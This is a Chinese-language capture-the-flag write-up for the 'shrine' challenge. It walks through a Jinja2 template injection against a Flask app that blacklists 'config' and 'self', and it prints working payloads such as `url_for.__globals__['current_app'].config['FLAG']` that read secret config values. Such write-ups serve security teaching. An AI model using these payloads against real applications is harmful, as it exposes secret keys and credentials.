

# shrine
## 题目描述
暂无
## 思路
http://220.249.52.133:53001  
点开题目链接，是一段代码，我们直接查看网页源码，发现是良好的格式：  
```python
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')

@app.route('/')
def index():
    return open(__file__).read()

@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)
```
审计一下代码，发现有效路径在 /shrine/ 文件夹下，看到后面有双大括号，因此在这个路径下，试一下模板注入：  
http://220.249.52.133:53001/shrine/{{7*7}}  
发现可以执行，因此，漏洞利用点找到了，我们继续审计代码。  
首先发现注册了一个名为 FLAG 的 config，大胆猜测这个起码和最终的 flag 有关。接着看到有黑名单，且黑名单中有两个关键词：config 和 self，不仅如此，还把黑名单的东西遍历并设为空。如果没有这层过滤，我们可以直接用 /shrine/{{config}} 查看所有 app.config 的内容。此外，本段代码还把小括号 ( 和 ) 替换为空字符。  
***
一时手足无措不知道该咋整……  
去网上找了找“资料”，发现了两个函数，url_for 和 get_flashed_messages  
***
使用 url_for.__globals__ 看看都有些啥：  
http://220.249.52.133:53001/shrine/{{ url_for.__globals__ }}  
  
查找了几个可能的关键字，发现只有这个比较贴切，意味着是当前的 app，尝试一下，访问当前 app 下名为 FLAG 的 config：  
http://220.249.52.133:53001/shrine/{{ url_for.__globals__['current_app'].config['FLAG'] }}  
  
得到 flag。  

使用 get_flashed_messages 函数也是同理，把以上 url 中的 url_for 替换为 get_flashed_messages 即可。  

## 相关知识
1. config 对象  
config 对象就是 Flask 的 config 对象，也就是 app.config 对象。  
2. request 对象  
就是 Flask 中表示当前请求的 request 对象，request对象中保存了一次HTTP请求的一切信息。  
request 的常用属性如下：  
  
3. url_for 方法  
url_for() 会返回视图函数对应的URL。如果定义的视图函数是带有参数的，则可以将这些参数作为命名参数传入。  
4. get_flashed_messages 方法  
返回之前在Flask中通过 flash() 传入的闪现信息列表。把字符串对象表示的消息加入到一个消息队列中，然后通过调用 get_flashed_messages() 方法取出(闪现信息只能取出一次，取出后闪现信息会被清空)。
